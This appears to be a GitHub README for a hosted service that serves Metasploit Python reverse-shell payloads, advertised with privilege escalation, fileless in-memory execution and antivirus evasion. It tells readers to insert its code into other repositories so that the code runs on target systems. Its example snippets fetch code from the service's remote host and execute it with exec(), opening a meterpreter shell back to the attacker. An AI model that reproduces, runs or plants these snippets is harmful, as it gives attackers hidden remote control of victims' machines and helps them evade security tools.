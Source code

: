 # easysploit-server
## Overview
Easysploit Server is a tool designed to generate, customize, and manage Metasploit reverse_tcp payloads. It simplifies exploitation with built-in admin privilege escalation, and AV evasion capabilities, supporting fileless execution for fast, undetectable operations.
Easysploit server is now working on https://easysploit.rocknroll17.com.

## Features
- Custom Reverse_TCP Payloads
- Admin Privilege Escalation
- Fileless Execution (Memory-based)
- Anti-Virus Evasion

## Scenario
1. **Generate Exploit Code using easysploit-client**  
Use easysploit-client to generate the exploit code. The generated code requests a payload from easysploit-server and executes it in a fileless manner.
2. **Embed the Exploit Code**  
Insert the generated code into other repositories or Python code to be executed on the target system.
3. **Execute on Target System**  
When the code is executed on the target system, it sends a request to easysploit-server for the payload.
4. **Fileless Execution**  
The easysploit-server delivers the payload and executes it filelessly in memory without leaving traces on the disk.

## Installation
You don't need to run this server.
It is already working on https://easysploit.rocknroll17.com.

## Usage
### Available Endpoints
**POST**
1. **Standard python Reverse TCP Payload**
Endpoint: `/python/meterpreter/reverse_tcp`
2. **Admin Privilege Reverse TCP Payload**
Endpoint: `/python/meterpreter/reverse_tcp/admin`
  
You can try these request in https://easysploit.rocknroll17.com/docs

### Request Body
Both endpoints require the same JSON payload:
```
{
  "LHOST": "Attacker's IP",
  "LPORT": Attacker's listening port
}
```

## Example Code
Insert this code where you gonna exploit.
1. **Standard python Reverse TCP Payload**
```
import urllib.request, json
exec(urllib.request.urlopen(urllib.request.Request("https://easysploit.rocknroll17.com/python/meterpreter/reverse_tcp", data=json.dumps({"LHOST": "Attacker's IP", "LPORT": Attacker's listening port}).encode(), headers={'Content-Type': 'application/json'})).read().decode())
```
2. **Admin Privilege Reverse TCP Payload**
```
import urllib.request, json
exec(urllib.request.urlopen(urllib.request.Request("https://easysploit.rocknroll17.com/python/meterpreter/reverse_tcp/admin", data=json.dumps({"LHOST": "Attacker's IP", "LPORT": Attacker's listening port}).encode(), headers={'Content-Type': 'application/json'})).read().decode())
```
